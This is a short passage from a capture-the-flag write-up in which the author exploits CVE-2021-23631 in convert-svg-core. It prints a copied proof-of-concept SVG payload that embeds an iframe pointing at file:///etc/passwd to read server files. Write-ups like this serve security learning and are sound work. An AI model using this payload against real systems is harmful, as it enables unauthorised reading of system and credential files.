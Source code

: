I google convert-svg-core CVE and found that there was a POC from Synk.
[Snyk Vulnerability DB: CVE-2021-23631](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785)

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517165616.png)

I copied the payload and check if its working.

Payload:

```xml
<svg-dummy></svg-dummy> <iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe> <svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg"> <text x="0" y="0" class="Rrrrr" id="demo">data</text> </svg>
```

Request:

![](https://github.com/Gelzki/Cyber-Apocalypse-2022-Write-Up/blob/main/attachments/Pasted%20image%2020220517165754.png)
